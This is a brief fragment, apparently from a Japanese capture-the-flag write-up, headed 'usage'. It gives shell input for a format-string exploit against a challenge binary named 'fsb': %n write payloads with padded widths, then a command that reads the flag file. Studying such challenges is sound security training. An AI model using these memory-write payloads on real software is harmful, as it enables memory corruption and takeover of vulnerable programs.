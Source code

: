 ## 利用方法

```sh
./fsb > /dev/null
%134520928c%14$n1111%15$n
%20$n%21$n
i am gonna
hax u down
0
(>&2 cat flag)
```